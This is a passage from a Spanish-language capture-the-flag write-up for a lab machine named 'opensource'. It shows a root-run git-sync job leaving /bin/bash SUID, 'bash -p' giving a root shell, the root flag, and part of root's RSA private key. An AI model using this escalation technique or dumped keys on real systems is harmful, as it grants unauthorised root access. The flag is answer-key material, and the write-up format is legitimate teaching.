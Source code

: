 Ahora solo toca esperar haste que **root** ejecute el *script* **git-sync**. Después de esperar un rato, vemos que este usuario ya ha asignado el permiso deseado a la bash:

```zsh
dev01@opensource:~/.git/hooks$ ls -la /bin/bash
-rwsr-xr-x 1 root root 1113504 Apr 18 15:08 /bin/bash
```

Y ya nos podremos spawnear un bash como root haciendo **bash -p**:

```
dev01@opensource:~/.git/hooks$ bash -p
bash-4.4## whoami
root
```

La flag final **root.txt** es la siguiente:

```
bash-4.4## cat root.txt 
08400648d6a7863796c442d66b33a902
```

Y su clave privada **id_rsa** por si luego nos queremos conectar por **SSH** es la siguiente:

```
-----BEGIN RSA PRIVATE KEY-----
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
```